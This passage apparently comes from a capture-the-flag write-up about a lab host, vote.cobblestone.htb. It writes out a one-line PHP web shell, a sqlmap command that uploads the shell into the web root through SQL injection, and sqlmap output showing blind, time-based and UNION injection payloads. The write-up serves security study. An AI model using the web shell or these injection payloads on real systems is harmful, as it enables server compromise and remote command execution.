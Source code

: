 We can see there is port `25151` in the `cobbler_api` part.  

Now let’s create `shell.php` and use `sqlmap` to upload and reverse shell.

```php
<?php system($_GET['cmd']); ?>

<?php system($_REQUEST['cmd']); ?>
```

```bash
sudo sqlmap -r req --batch --file-write shell.php --file-dest /var/www/vote/shell.php
```

```sql
 ___ ___["]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:43:36 /2025-09-28/

[13:43:36] [INFO] parsing HTTP request from 'req'
[13:43:36] [INFO] resuming back-end DBMS 'mysql'
[13:43:36] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=4'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:43:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:43:38] [INFO] fingerprinting the back-end DBMS operating system
[13:43:38] [INFO] the back-end DBMS operating system is Linux
[13:43:40] [WARNING] expect junk characters inside the file as a leftover from UNION query
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/vote/shell.php')? [Y/n] Y
[13:43:41] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[13:43:41] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:43:41 /2025-09-28/
```
